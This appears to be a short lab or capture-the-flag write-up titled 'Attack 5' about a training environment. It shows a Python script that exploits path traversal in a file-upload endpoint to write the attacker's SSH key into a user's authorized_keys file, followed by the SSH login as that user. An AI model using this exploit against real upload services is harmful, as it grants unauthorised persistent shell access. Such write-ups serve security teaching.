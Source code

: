 # Attack 5
## SSH key upload
We upload our ssh key to their server by sending our ssh key as a file to their server. And also saving it in the right directory on their server.
This was the script we used to upload our ssh key:
```python
upload_key = {
"file": (
"/../../.ssh/authorized_keys",
open("./ssh_key", "rb"),
"application/octet-stream"
)
}
url = "https://dropbox.internal.regjeringen.uiaikt.no/"
response = requests.post(url, files=upload_key)
print(response.text)
```
This gives us a response with the path to our ssh key on their server:
`/home/ingridnilsen/.ssh/authorized_keys`. Which means that we saved the SSH key on Ingrid Nilsens user.
We can then log in as `ingridnilsen` through SSH:
`ssh ingridnilsen@10.13.13.253`
